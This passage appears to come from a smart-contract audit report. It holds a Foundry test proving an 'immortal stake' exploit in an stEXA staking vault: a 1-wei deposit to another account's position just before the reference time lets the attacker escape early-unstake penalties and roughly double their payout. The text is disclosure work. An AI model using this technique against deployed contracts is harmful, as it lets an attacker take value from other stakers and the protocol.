 ```solidity
    exa.approve(address(stEXA), type(uint256).max);
  exa.mint(c0ffee, depositAmount);
  exa.mint(deadbeef, depositAmount);
  vm.prank(c0ffee);
    stEXA.deposit(depositAmount, c0ffee);
  vm.prank(deadbeef);
    stEXA.deposit(depositAmount, deadbeef);

  /// @notice Here, we'll decide whether to execute the exploit. When
  /// @notice enabled, `c0ffee` will make an insignificant donation of `1 wei`
  /// @notice to `deadbeef`.
  /// @notice Remember, this has to take place whilst the stake duration is less
  /// @notice than the `refTime`:
  skip(duration - 1);
  if (immortalStakeEnabled /* grant_c0ffee_immortality */) {
    uint256 attackAmount = 1 wei;
    exa.mint(c0ffee, attackAmount);
    vm.prank(c0ffee);
      stEXA.deposit(attackAmount, deadbeef);
  }

  skip(1) /* optimal_stake_here */;

  /// @notice Let's assume both positions are inoptimal and are
  /// @notice not unstaked until long after the `refTime`. In this
  /// @notice scenario, we should expect both accounts to suffer
  /// @notice a penalty.
  skip(1_000 weeks);

  /// @notice Finally, let's have both accounts unstake and
  /// @notice compare the results.
  vm.startPrank(c0ffee);
    stEXA.redeem(stEXA.balanceOf(c0ffee), c0ffee, c0ffee);
  vm.stopPrank();
  vm.startPrank(deadbeef);
    stEXA.redeem(stEXA.balanceOf(deadbeef), deadbeef, deadbeef);
  vm.stopPrank();

  /// @audit Notice that when `c0ffee` attempts the immortal stake hack,
  /// @audit regardless of how inoptimal their stake duration, they
  /// @audit may retain peak profitability. `deadbeef`, by contrast,
  /// @audit is subject to penalties as anticipated.
  assertEq(exa.balanceOf(c0ffee),   immortalStakeEnabled ? 500999929609020041241 : 256859374999997301400);
  assertEq(exa.balanceOf(deadbeef), immortalStakeEnabled ? 256859374999997301399 : 256859374999997301400);

}
```

For these two equal stakes with inoptimal excess staking durations, let's compare the outcome:

